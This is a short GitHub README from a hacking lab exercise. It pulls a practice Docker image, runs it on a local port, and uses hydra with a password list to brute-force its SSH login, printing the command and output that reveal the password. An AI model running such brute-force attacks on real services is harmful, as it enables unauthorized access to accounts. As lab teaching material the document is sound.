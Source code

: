 # Attack is the best defense

```bash
88                                88        88
88                                88        ""
88                                88
88,dPPYba,  ,adPPYYba,  ,adPPYba, 88   ,d8  88 8b,dPPYba,   ,adPPYb,d8
88P'    "8a ""     `Y8 a8"     "" 88 ,a8"   88 88P'   `"8a a8"    `Y88
88       88 ,adPPPPP88 8b         8888[     88 88       88 8b       88
88       88 88,    ,88 "8a,   ,aa 88`"Yba,  88 88       88 "8a,   ,d88
88       88 `"8bbdP"Y8  `"Ybbd8"' 88   `Y8a 88 88       88  `"YbbdP"Y8
                                                            aa,    ,88
                                                             "Y8bbdP"
```

# General

* Network basics
* Docker

# Environment

<!-- ubuntu -->
[![Ubuntu](https://img.shields.io/static/v1?label=&message=Ubuntu&color=E95420&logo=Ubuntu&logoColor=E95420&labelColor=2F333A)](https://ubuntu.com/) <!-- bash -->
[![Bash](https://img.shields.io/static/v1?label=&message=GNU%20Bash&color=4EAA25&logo=GNU%20Bash&logoColor=4EAA25&labelColor=2F333A)](https://www.gnu.org/software/bash/) <!-- vim -->
[![Vim](https://img.shields.io/static/v1?label=&message=Vim&color=019733&logo=Vim&logoColor=019733&labelColor=2F333A)](https://www.vim.org/) <!-- vs code -->
[![VS Code](https://img.shields.io/static/v1?label=&message=Visual%20Studio%20Code&color=5C2D91&logo=Visual%20Studio%20Code&logoColor=5C2D91&labelColor=2F333A)](https://code.visualstudio.com/)

* OS: ``ubuntu``
* Shell: ``bash``
* IDE: ``vim``, ``VS Code``
* ``ssh``
* ``tcpdump``
* ``hydra``
* ``telnet``
* ``docker``

## Brute attack force

Pull docker image

``docker pull sylvainkalache/264-1```

Run the image

```bash
ralex@ralex-nb:~$ docker run -p 2222:22 -d -ti sylvainkalache/264-1
f6e64ceecab2c913fac1a15f2f2f66669dac8fd6b8f9a563ae30810f19852719
```

```bash
ralex@ralex-nb:~$ docker ps
CONTAINER ID   IMAGE                  COMMAND                  CREATED              STATUS              PORTS                                   NAMES
f6e64ceecab2   sylvainkalache/264-1   "/bin/sh -c 'service…"   About a minute ago   Up About a minute   0.0.0.0:2222->22/tcp, :::2222->22/tcp   quizzical_curran
ralex@ralex-nb:~$ 
```

brute force docker with hydra

``hydra -l sylvain -P passlist.txt ssh://127.0.0.1:2222``

```bash
ralex@ralex-nb:~$ hydra -l sylvain -P passlist.txt ssh://127.0.0.1:2222
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-01-25 20:39:24
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 5 tasks per 1 server, overall 5 tasks, 5 login tries (l:1/p:5), ~1 try per task
[DATA] attacking ssh://127.0.0.1:2222/
[2222][ssh] host: 127.0.0.1   login: sylvain   password: password123
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-01-25 20:39:27
ralex@ralex-nb:~$ 
```

## Author

<!-- twitter -->
[![Twitter](https://img.shields.io/twitter/follow/ralex_uy?style=social)](https://twitter.com/ralex_uy) <!-- linkedin --> [![Linkedin](https://img.shields.io/badge/LinkedIn-+21K-blue?style=social&logo=linkedin)](https://www.linkedin.com/in/ronald-rivero/) <!-- github --> [![Github](https://img.shields.io/github/followers/ralexrivero?style=social)](https://github.com/ralexrivero/) <!-- vagrant --> [![Vagrant](https://img.shields.io/static/v1?label=&message=Vagrant%20Profile&color=1868F2&logo=vagrant&labelColor=2F333A)](https://app.vagrantup.com/ralexrivero) <!-- docker --> [![Docker](https://img.shields.io/static/v1?label=&message=Docker%20Profile&color=2496ED&logo=Docker&labelColor=2F333A)](https://hub.docker.com/u/ralexrivero)